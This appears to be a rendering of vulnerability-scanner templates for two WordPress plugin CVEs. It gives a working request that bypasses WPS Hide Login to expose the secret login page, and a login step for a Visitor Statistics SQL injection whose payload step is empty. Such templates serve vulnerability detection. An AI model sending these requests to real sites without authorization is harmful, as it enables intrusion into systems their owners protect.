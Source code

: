 # WPS Hide Login \< 1.9.1 - Protection Bypass with Referer-Header
## Description
- The plugin has a bug which allows to get the secret login page by setting a random referer string and making a request to /wp-admin/options.php as an unauthenticated user.
- severity - high
- tags - cve2021,wp,wordpress,wp-plugin,unauth,wpscan,cve
## Requests
### Step - 1
```
GET /wp-admin/options.php HTTP/1.1
Host: {{Hostname}}
Referer: something

```
### Matchers

**Type - word**
- part - header
- words
    1. redirect_to=%2Fwp-admin%2Fsomething&reauth=1

**Type - dsl**
- dsl
    1. !contains(tolower(location), 'wp-login.php')
### Extractors

**Type - kval**
- kval
    1. location

---
# WordPress Visitor Statistics (Real Time Traffic) \<4.8 -SQL Injection
## Description
- WordPress Visitor Statistics (Real Time Traffic) plugin before 4.8 does not properly sanitize and escape the refUrl in the refDetails AJAX action, which is available to any authenticated user. This could allow users with a role as low as subscriber to perform SQL injection attacks.
- severity - high
- tags - authenticated,wpscan,cve,cve2021,sqli,wp,wordpress,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
```